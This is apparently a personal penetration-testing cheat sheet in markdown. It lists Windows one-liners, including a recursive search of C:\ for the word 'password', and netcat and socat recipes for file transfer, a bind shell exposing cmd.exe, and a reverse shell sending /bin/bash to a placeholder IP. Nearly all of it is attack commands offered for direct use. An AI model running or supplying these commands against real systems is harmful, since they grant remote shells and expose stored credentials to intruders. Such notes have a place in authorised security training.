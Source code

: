 




# one-liners
## windows
#### dir and file
list all files current dir
`get-childitem -hidden` 

search C:\ for password
`ci -recurse C:\ | % { select-string -path $_ -pattern password} 2>$null`

base64
`certutil -encone/-decode <FILE> <OUTFILE>`

copy contents of file to clipboard
`Get-Content <FILENAME> | Set-Clipboard`


## nix


# shells & file transfers
### netcat
#### file transfer
target machine
`nc -nlvp 9001 > incoming.exe`
local machine
`nc -nv IP.ADDR 9001 < EXAMPLE.exe`
(note: no output, must guess when upload complete)

#### bind shell
target
`nc -lnvp 9001 -e cmd.exe`
local
`nc -nv IP.ADDR 9001`

#### reverse shell
target
`nc -nv IP.ADDR 9001 -e /bin/bash`
local
`nc -lnvp 9001`

### socat
#### connecting
`socat - TCP4:10.11.0.22:110`
